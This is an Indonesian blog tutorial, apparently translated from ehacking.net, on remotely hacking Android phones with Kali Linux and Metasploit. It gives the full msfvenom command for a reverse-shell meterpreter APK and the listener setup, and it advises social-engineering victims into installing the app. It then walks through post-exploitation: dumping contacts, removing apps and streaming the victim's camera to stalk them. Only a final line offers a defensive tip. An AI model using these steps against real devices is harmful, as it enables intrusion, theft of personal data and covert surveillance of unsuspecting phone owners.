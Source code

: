 ```yaml
---
layout: post
image: 
title: Hack ponsel Android dari jarak jauh
post_id: 1
author_name: Unang
author_id: 1
featured: true
date: 2021-10-11 8:14:30 +0600
tags: [internet, hack, android]
categories: [Tutorial]
post_image: https://lh3.googleusercontent.com/-rxGLOCRjIps/YYiUiLESssI/AAAAAAAAHec/faFJ7Uhm8_8Npi45FrYeYZvcin7miaXEwCLcBGAsYHQ/hack-android.webp
---
```


Kita akan menggunakan msfvenom untuk membuat payload dan<!--more--> menyimpannya sebagai file apk. Setelah menghasilkan payload, kita perlu menyiapkan listener ke framework Metasploit. Setelah target mengunduh dan menginstal apk jahat, penyerang dapat dengan mudah mendapatkan kembali sesi meterpreter di Metasploit. Penyerang perlu melakukan beberapa rekayasa sosial untuk menginstal apk di perangkat seluler korban.

## Tutorial langkah demi langkah

    
### Menghasilkan Payload dengan msfvenom

Pertama, jalankan Kali Linux sehingga kita dapat menghasilkan file apk sebagai aplikasi berbahaya. Kita perlu memeriksa IP publik kita yang ternyata '192.168.0.112'. Kamu juga dapat meretas perangkat Android melalui Internet dengan menggunakan IP Publik/Eksternal kamu di LHOST dan dengan port forwarding.

![kali](/images/kali.png)

Setelah mendapatkan IP host publik Anda, gunakan alat msfvenom yang akan menghasilkan payload untuk menembus perangkat Android. Ketik perintah:
<pre>
# msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4444 R > ehacking.apk
</pre>
## Dimana:
- <b>-p</b> menunjukkan jenis payload.
- <b>android/meterpreter/reverse_tcp</b> menentukan shell meterpreter terbalik akan datang dari perangkat Android target.
- <b>LHOST</b> adalah <b>IP Publik</b> Kamu.
- <b>LPORT</b> diatur sebagai listening port.
- <b>R> /var/www/html</b> akan memberikan output langsung di server Apache.
- <b>apk</b> adalah nama akhir dari hasil akhir.

Ini akan memakan waktu untuk menghasilkan file apk hampir sepuluh ribu byte.

![kali-linix](/images/kali2.png)

<br />

# Meluncurkan Serangan

![kali-linux](/images/kali3.png)

Semua tampaknya sudah siap, sekarang jalankan <b>msfconsole</b>. Gunakan <b>exploit multi/handler</b>, atur <b>payload</b> sama seperti yang dihasilkan sebelumnya, atur nilai <b>LHOST</b> dan <p>LPORT</p> sama seperti yang digunakan dalam payload dan terakhir ketik <b>exploit</b> untuk meluncurkan serangan.
![kali-linux](/images/kali4.png)


Dalam skenario kehidupan nyata, beberapa teknik rekayasa sosial dapat digunakan untuk membiarkan target mengunduh file apk berbahaya. Untuk demonstrasi kita hanya tinggal mengakses mesin penyerang untuk mengunduh file di perangkat Android.
![kali-linux](/images/kali5.jpg)

Setelah berhasil mengunduhnya, pilih aplikasi yang akan diinstal.

Sejauh ini, opsi penginstallan sering terlihat ketika kita mencoba menginstal beberapa aplikasi pihak ketiga dan biasanya pengguna tidak akan ragu untuk mengizinkan instalasi dari sumber yang tidak dikenal.
![kali-linux](/images/kali6.jpg)

Setelah pengguna menginstal aplikasi dan menjalankannya, sesi <b>meterepreter</b> akan segera dibuka di sisi penyerang.
![kali-linux](/images/kali7.png)

<br />
    {% include iklan-artikel.html %}
# Post Exploitation

Ketik <b>"background"</b> dan kemudian <b>"sessions"</b> untuk membuat daftar semua sesi dari mana Anda dapat melihat semua IP yang terhubung ke mesin.
![kali-linux](/images/kali8.png)


Kamu dapat berinteraksi dengan sesi apa pun dengan mengetik <b>sessions -i [session ID]</b>
Setelah memasuki sesi, ketik <b>"help"</b> untuk membuat daftar semua perintah yang dapat kita ajukan di sesi ini.


Kamu dapat melihat beberapa perintah sistem file yang berguna saat Anda mencoba mencari beberapa informasi atau data sensitif. Dengan menggunakan ini, Kamu dapat dengan mudah mengunduh atau mengunggah file atau informasi apa pun
![kali-linux](/images/kali9.png)

Kamu juga akan menemukan beberapa perintah jaringan termasuk portfwd dan route
![kali-linux](/images/kali10.png)

Beberapa perintah sistem yang kuat untuk mendapatkan ID pengguna, mendapatkan shell atau mendapatkan informasi sistem yang lengkap.

Ketik "app_list" dan itu akan menampilkan semua aplikasi yang diinstal pada perangkat.
![kali-linux](/images/kali11.png)

Kita juga memiliki kekuatan untuk mencopot pemasangan aplikasi apa pun dari perangkat Android.
![kali-linux](/images/kali12.png)


# Mengekstrak Kontak dari Perangkat Android

Sekarang kita ekstrak beberapa kontak dari perangkat target dengan mengetik "dump" dan tab ganda
![kali-linux](/images/kali13.png)

Ini akan menampilkan semua opsi untuk mengekstrak dari perangkat. Ketik "dump_contacts" dan enter
![kali-linux](/images/kali14.png)

Ini akan mengekstrak semua kontak dari perangkat Android dan akan menyimpannya di direktori lokal kita. Untuk melihat file ini ketik “ls” dan “cat [file_name]”
![kali-linux](/images/kali15.png)

Ini akan menunjukkan konten file kontak yang sebelumnya diunduh dari perangkat target. Informasi ini sangat sensitif dan dapat dimanfaatkan oleh peretas.

# Mengendalikan Kamera Android

Dengan mengetik perintah <b>"webcam_stream"</b> kamu bisa menyusup dan mengamati melalui kamera android si korban, dan menguntitnya.
![kali-linux](/images/kali16.webp)

# Waspada... Android Terbaru pun Masih Lancar Terkena Serangan.

Handphone xiaomi MI10 dengan OS Android 10 Masih Lancar terkena serangan, Untuk kamu yang masih sering klik website tidak jelas yang masuk ke sms atau via whatsapp sebaiknya berhati-hati dari sanalah aplikasi ini terinstall diam-diam di android kamu.
![kali-linux](/images/kali17.webp)

![kali-linux](/images/kali18.webp)


Ada masih banyak lagi perintah yang tersedia di <b>meterpreter</b>. Lebih lanjut coba jelajahi dan pelajari apa yang bisa kita lakukan dengan perangkat Android. Ini menyimpulkan bahwa kita telah berhasil menembus perangkat Android menggunakan Kali Linux dan Metasploit-Framework.


Tip sehat untuk mengamankan perangkat Android kamu adalah dengan <b>tidak menginstal aplikasi apa pun dari sumber yang tidak dikenal</b>, bahkan jika Anda benar-benar ingin menginstalnya, cobalah untuk membaca dan memeriksa kode sumbernya untuk mengetahui apakah file ini berbahaya atau tidak.



<small>Artikel ini awalnya diterbitkan di [blog ehacking.](https://www.ehacking.net/2020/04/how-to-hack-an-android-phone-using-metasploit-msfvenom-in-kali-linux.html)</small>
